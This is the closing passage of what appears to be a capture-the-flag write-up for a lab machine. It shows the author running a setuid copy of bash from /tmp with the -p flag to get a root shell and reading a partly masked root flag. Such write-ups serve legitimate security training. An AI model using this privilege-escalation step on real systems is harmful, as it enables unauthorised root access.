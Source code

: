 Finally, I can execute `/tmp/bash` with `-p` parameter:

```bash
dvir@headless:/tmp$ ./bash -p
bash-5.2# whoami
root
```

And we have access as root! Now we can see root.txt:

```bash
bash-5.2# cd /root/
bash-5.2# cat root.txt 
b0****************************a6
```
